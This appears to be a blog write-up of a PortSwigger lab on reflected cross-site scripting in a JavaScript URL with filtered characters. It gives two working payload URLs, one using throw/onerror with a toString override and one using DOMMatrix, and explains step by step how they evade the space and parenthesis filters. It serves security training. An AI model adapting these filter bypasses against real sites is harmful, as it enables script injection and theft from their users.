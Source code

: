 ```yaml
---
title: "Expert Lab: Reflected XSS in a JavaScript URL with some characters blocked"
published: true
tags: [Web Application Security, Web Security Academy, Expert Labs, Cross-Site Scripting, XSS, Javascript]
image: /blog/assets/hacker.png
description: "Lab Description: This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks."
---
```


<br>
![](/blog/assets/hacker.png)
<br>
[^1]
<br>
### Lab Link
[Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

<br>
### Lab Description
* * *
<br>
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.

<br>
### Solutions
* * *
<br>
### Solution 1:
Visit the following URL, replacing your-lab-id with your lab ID:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

The lab will be solved, but the alert will only be called if you click "Back to blog" at the bottom of the page.

The payload here, URL decoded is:

```js
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

The exploit uses exception handling to call the alert function with arguments. The throw statement is used, separated with a blank comment in order to get round the no spaces restriction. The alert function is assigned to the onerror exception handler.

As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.

<br>
Here are some explanations about the Javascript code used above[^2]:

First of all, the code is using the comma operator. What the comma operator does is allow you to evaluate multiple expressions. In particular in this case, you have three:

```js
   x=x=>{throw onerror=alert,1337},toString=x,window+''
// ^_____________________________^ ^________^ ^_______^
//                 1                     2         3
```

Let's examine them one by one:

<br>
#### Brief Note about Implicit Globals
This is going to be relevant for most of the below sections, so I want to clear it up first. Any time you assign to any name you haven't declared with `var`, `let`, or `const` it implicitly assigns to a property on the global object. In the browser, the global object is `window`, so any implicit globals go there.

<br>
#### An Arrow Function
```js
x=x=>{onerror=alert; throw 1337}
```

##### Definition
This will create a new arrow function and assign it to `x`. Since there is no variable declaration, `x` will be an implicit global and thus attached to `window`. This isn't extremely useful, it's likely done to save a few characters. The function also takes a single parameter called `x` but does nothing with it. Again, nothing useful, saves up a single character, otherwise it needs to be defined as `()=>`.

<br>
#### Overriding `toString`
```js
toString=x
```

This part will override the `toString` method on `window` and change it to the `x` function. Thus any time you explicitly or implicitly convert `window` to a string, it will instead execute `x`.

```js
x = x => {
  onerror = alert;
  throw 1337
}

toString = x;

window.toString();
```

<br>
#### Converting `window` to String
In JavaScript, when you try to concatenate any value with a string, the value will be implicitly also be converted to a string. This is usually done by calling the `toString()` method.

The same thing happens in the last part of the code:

```js
window+''
```

This will:

1. trigger conversion to a string, which
2. calls the `toString` method on `window`, which
3. was overridden with `x` using `toString=x`, which
4. calls the `x` function instead, which
5. sets the global error handler to just be `alert` (`onerror=alert`) and immediately throws an error (throw `1337`), which
6. invokes the global error handler

<br>
#### Why omitting `window+''` doesn't Throw an Error
Hopefully clear from the above, but to address it directly, that code is needed to set off the whole chain of reactions defined before it.
Here is the full code with explanation and formatting for clarity:

```js
//create a function
window.x = x => {
  onerror = alert; //changes the global error handler
  throw 1337       //throws an error to trigger the error handler
};

//overwrite the `toString` method of `window` so it always throws an error
window.toString = window.x;

//implicitly call `window.toString()` by performing a string concatenation
window + '';
```

<br>
### Solution 2:
Another interesting solution is to use _JavaScript without parentheses using DOMMatrix_ which is explained in detail by Gareth Heyes in a great post[^3]. To solve this lab with DOMMatrix payload, use:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=z=%3E{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'%2b':'%2bx},toString=x,window%2b%27%27,{x:%27
```

The payload in this code, URL decoded is:

```js
&'},x=z=>{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x},toString=x,window+'',{x:'
```

As explained in Solution 1: `/**/` is used to bypass space restriction, also click "Back to blog" link to pop alert message box and solve the lab.


<br>
### _External Links_
* * *
* #### [Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
* #### [Cross-site scripting (XSS) cheat sheet: Restricted characters](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#restricted-characters)

<br>
### _References_
* * *
[^1]: Icon made by [Flat Icons](https://www.flaticon.com/authors/flat-icons) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Javascript window object, window+'', what does this code do](https://stackoverflow.com/questions/64416874/javascript-window-object-window-what-does-this-code-do)
[^3]: [JavaScript without parentheses using DOMMatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix), also see: [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
